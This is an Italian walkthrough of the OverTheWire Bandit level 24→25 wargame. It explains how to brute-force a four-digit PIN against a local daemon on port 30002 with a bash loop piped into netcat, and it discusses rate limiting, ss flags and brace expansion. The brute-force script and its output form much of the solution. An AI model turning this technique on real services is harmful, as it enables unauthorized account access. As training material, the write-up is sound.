




# Bandit Level 24 → 25

## Obiettivo

Un demone in ascolto sulla porta `30002` su `localhost` restituisce la password di `bandit25` se gli vengono forniti la password di `bandit24` e un PIN numerico a 4 cifre. Non c'è modo di recuperare il PIN se non testando tutte le 10.000 combinazioni possibili.

---

## Informazioni di connessione

| Campo | Valore |
|-------|--------|
| Host | `bandit.labs.overthewire.org` |
| Porta | `2220` |
| Utente | `bandit24` |

```bash
ssh bandit24@bandit.labs.overthewire.org -p 2220
```

---

## Comandi / concetti utili

- `ss -tulnp` — elenca le porte TCP/UDP in ascolto con i processi associati
- `nano` — editor di testo da terminale
- `chmod +x` — aggiunge il bit di esecuzione a un file
- `for i in {0000..9999}` — brace expansion bash con zero-padding per iterare su tutti i PIN
- `done | nc localhost 30002` — convoglia l'intero output del loop in una singola connessione TCP

---

## Soluzione

### Step 1 – Verificare la porta e creare la directory di lavoro

Si conferma che il servizio è in ascolto sulla porta indicata dall'obiettivo, usando `ss` come alternativa a `nmap` per ispezionare lo stato delle porte locali:

```bash
bandit24@bandit:~$ ss -tulnp | grep 30002
tcp   LISTEN 0      5            0.0.0.0:30002      0.0.0.0:*
```

La porta `30002` è in ascolto su tutte le interfacce (`0.0.0.0`). Si crea la directory di lavoro e il file dello script:

```bash
bandit24@bandit:~$ mkdir /tmp/bandit24_gionweek/ && touch /tmp/bandit24_gionweek/bruteforce.sh
bandit24@bandit:~$ nano /tmp/bandit24_gionweek/bruteforce.sh
```



### Step 2 – Scrivere lo script di brute force

```bash
#!/bin/bash

for i in {0000..9999}; do
echo "[password bandit24] $i"
done | nc localhost 30002
```



Il loop `for i in {0000..9999}` sfrutta la **brace expansion** di bash, che genera automaticamente tutte le stringhe da `0000` a `9999` con zero-padding a 4 cifre. Per ogni valore stampa una riga nel formato atteso dal servizio: `<password> <PIN>`. Il dettaglio cruciale è la posizione di `| nc localhost 30002`: il pipe è **dopo** `done`, non dentro il loop. Questo significa che `nc` apre **una sola connessione TCP**, riceve tutte le 10.000 righe in sequenza e le trasmette al demone in un unico flusso. Il demone le elabora una per una e risponde a ciascuna, finché non trova quella corretta.

### Step 3 – Rendere lo script eseguibile ed eseguirlo

```bash
bandit24@bandit:~$ cd /tmp/bandit24_gionweek && chmod +x bruteforce.sh
bandit24@bandit:/tmp/bandit24_gionweek$ ls -l
-rwxrwxr-x 1 bandit24 bandit24 108 Jun  8 14:30 bruteforce.sh
bandit24@bandit:/tmp/bandit24_gionweek$ ./bruteforce.sh
```



### Step 4 – Attendere il risultato

Lo script trasmette tutte le combinazioni attraverso la connessione TCP. Il demone risponde con `Wrong! Please enter the correct current password and pincode. Try again.` per ogni PIN errato, fino a quando trova quello corretto:

```
Wrong! Please enter the correct current password and pincode. Try again.
Wrong! Please enter the correct current password and pincode. Try again.
...
Correct!
The password of user bandit25 is iCi[...]
```



---

## Note e osservazioni

**Brute force: cos'è e quando si usa**

Il brute force (o forza bruta) è una tecnica che consiste nel testare sistematicamente tutte le possibili combinazioni di un valore sconosciuto fino a trovare quella corretta. È applicabile quando lo spazio dei valori possibili è abbastanza piccolo da essere esplorato in tempo ragionevole. In questo livello il PIN è a 4 cifre decimali: 10.000 combinazioni. A titolo di confronto, un PIN a 6 cifre richiederebbe 1.000.000 di tentativi; una password alfanumerica di 8 caratteri ne richiederebbe miliardi.

La difesa standard contro il brute force è il **rate limiting**: limitare il numero di tentativi per unità di tempo o per connessione. Il servizio di questo livello non implementa rate limiting, rendendo il brute force praticabile in pochi secondi.

**Perché `done | nc` e non `nc` dentro il loop**

La differenza tra le due versioni è sostanziale in termini di efficienza:

```bash
# Inefficiente: 10.000 connessioni TCP separate
for i in {0000..9999}; do
    echo "[password] $i" | nc localhost 30002
done

# Efficiente: una sola connessione TCP
for i in {0000..9999}; do
    echo "[password] $i"
done | nc localhost 30002
```

Ogni apertura di connessione TCP comporta un handshake a tre vie (SYN, SYN-ACK, ACK) e una chiusura (FIN, FIN-ACK). Su 10.000 iterazioni, questo overhead moltiplicato rende la versione con `nc` nel loop ordini di grandezza più lenta e più rumorosa. La versione con il pipe fuori dal loop apre la connessione una sola volta, trasmette tutte le righe in streaming e aspetta le risposte — comportamento analogo a quello di un client che invia un batch di richieste in pipeline.

**`ss` come alternativa a `nmap` per porte locali**

`ss` (socket statistics) è uno strumento del kernel Linux per ispezionare lo stato dei socket di rete direttamente dalle strutture del kernel, senza inviare pacchetti. È più veloce di `nmap` per verificare porte locali perché non richiede scanning attivo. I flag usati:

- `-t` — mostra solo socket TCP
- `-u` — include socket UDP
- `-l` — mostra solo socket in stato LISTEN
- `-n` — non risolve nomi di servizio (mostra numeri di porta invece di `http`, `ssh`, ecc.)
- `-p` — mostra il processo associato a ogni socket (richiede privilegi o mostra solo i propri processi)

`nmap` rimane preferibile per scansioni su host remoti o range di porte, dove il probing attivo è necessario. Per verificare rapidamente quali porte sono aperte sul sistema locale, `ss` è più diretto.

**`{0000..9999}` e la brace expansion con zero-padding**

La brace expansion `{0000..9999}` è una funzionalità di bash che genera sequenze di stringhe. Quando il valore iniziale ha zeri iniziali, bash mantiene il padding per tutta la sequenza: `0000`, `0001`, ..., `0009`, `0010`, ..., `9999`. Questo è necessario perché il demone potrebbe aspettarsi esattamente 4 cifre: inviare `0` al posto di `0000` o `42` al posto di `0042` potrebbe non essere riconosciuto come PIN valido.
